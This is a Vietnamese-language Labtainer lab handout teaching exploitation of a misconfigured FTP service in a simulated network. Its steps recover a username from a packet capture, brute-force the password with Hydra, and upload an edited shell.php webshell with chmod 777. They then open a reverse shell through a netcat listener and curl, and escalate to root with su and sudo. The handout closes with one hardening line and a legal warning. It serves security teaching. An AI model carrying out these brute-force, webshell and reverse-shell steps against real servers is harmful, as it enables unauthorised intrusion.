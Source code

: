 ### Bài Thực Hành: Khai Thác Lỗ Hổng Bảo Mật FTP

#### Mục Đích:

* Giúp sinh viên hiểu được các lỗ hổng bảo mật phổ biến trong cấu hình hệ thống dịch vụ FTP.

#### Yêu Cầu Đối Với Sinh Viên:

* Có kiến thức cơ bản về hệ điều hành Linux, mô hình mạng client/server.

#### Nội Dung Bài Thực Hành:

##### 1. **Khởi Động Bài Lab**

Để khởi động bài lab, sinh viên cần gõ lệnh sau trong terminal:

```bash
labtainer troubleshooting-ftp
```

Sau khi khởi động xong, hai terminal ảo sẽ xuất hiện. Một terminal là đại diện cho máy **user** và một terminal là đại diện cho máy **server**.

##### 2. **Phân Tích Gói Tin**

Mở **Wireshark** để phân tích gói tin từ tệp **Capture.pcapng** đã có sẵn trên máy. Trên terminal **user**, gõ lệnh sau:

```bash
wireshark /etc/Capture.pcapng
```

Dùng Wireshark để tìm kiếm thông tin đăng nhập FTP, ví dụ như tên người dùng (username). Bạn sẽ tìm thấy tên người dùng là `jenny` trong gói tin này.

##### 3. **Sử Dụng Công Cụ Nmap**

Quét các cổng đang mở trên máy server để xác định dịch vụ FTP. Trên terminal **user**, gõ lệnh sau:

```bash
nmap 192.168.0.115
```

##### 4. **Sử Dụng Công Cụ Hydra**

Sử dụng công cụ **Hydra** để brute-force mật khẩu cho người dùng `jenny`. Bạn đã biết username từ bước trước, và bây giờ bạn cần tìm mật khẩu của người dùng này. Trên terminal **user**, gõ lệnh sau:

```bash
hydra -l jenny -P /etc/passwords-list.txt ftp://192.168.0.115
```

##### 5. **Tạo Backdoor**

* Đăng nhập vào dịch vụ FTP trên server:

  ```bash
  ftp 192.168.0.115
  ```

* Tải file **shell.php** từ server về máy **user**:

  ```bash
  get shell.php
  ```

* Chỉnh sửa file **shell.php** để cập nhật địa chỉ IP và cổng của máy **user**.

* Xóa file **shell.php** cũ trên server:

  ```bash
  mdelete shell.php
  ```

* Tải lại file **shell.php** đã chỉnh sửa lên server và cấp quyền truy cập:

  ```bash
  put shell.php
  chmod 777 shell.php
  ```

##### 6. **Sử Dụng Công Cụ Netcat**

Mở một cổng kết nối đến máy server bằng **Netcat**. Trên terminal **user**, gõ lệnh sau:

```bash
nc -nvlp [port]
```

Trên terminal khác, sử dụng **curl** để truy cập file **shell.php**:

```bash
curl http://192.168.0.115/shell.php
```

##### 7. **Nâng Cao Đặc Quyền**

Sau khi có được reverse shell, sử dụng Python để mở terminal bash:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Chuyển qua người dùng đã tìm được (ví dụ: `jenny`), sau đó chuyển sang root và kiểm tra quyền với lệnh `whoami`:

```bash
su jenny
sudo su
whoami
```

##### 8. **Cấu Hình Dịch Vụ FTP**

Để cải thiện bảo mật cho dịch vụ FTP, cấu hình lại tệp **vsftpd.conf** để giới hạn số lần đăng nhập sai:

```bash
echo "max_login_fails=3" >> /etc/vsftpd.conf
```

##### 9. **Kết Thúc Bài Lab**

Khi hoàn thành bài lab, sử dụng lệnh sau để kết thúc:

```bash
stoplab troubleshooting-ftp
```

Sau khi dừng bài lab, một tệp zip chứa kết quả sẽ được tạo và lưu ở vị trí được hiển thị.

##### 10. **Khởi Động Lại Bài Lab**

Nếu bạn cần thực hiện lại bài lab, sử dụng lệnh sau:

```bash
labtainer -r troubleshooting-ftp
```

---

### Lưu Ý:

* **Hydra**: Công cụ này sử dụng để brute-force mật khẩu cho dịch vụ FTP.
* **Wireshark**: Dùng để phân tích gói tin và tìm tên người dùng cũng như mật khẩu.
* **Netcat**: Mở reverse shell kết nối từ server về máy **user**.
* **Chmod 777**: Cấp quyền truy cập đầy đủ cho file `shell.php` sau khi tải lên server.
* **Python**: Sử dụng để mở shell bash từ terminal kết nối Netcat.

### Cảnh Báo:

* Đây là một bài thực hành mô phỏng các tấn công trong môi trường an toàn để sinh viên có thể học hỏi. Tuy nhiên, việc áp dụng các kỹ thuật này vào môi trường thực tế mà không có sự cho phép là vi phạm pháp luật.
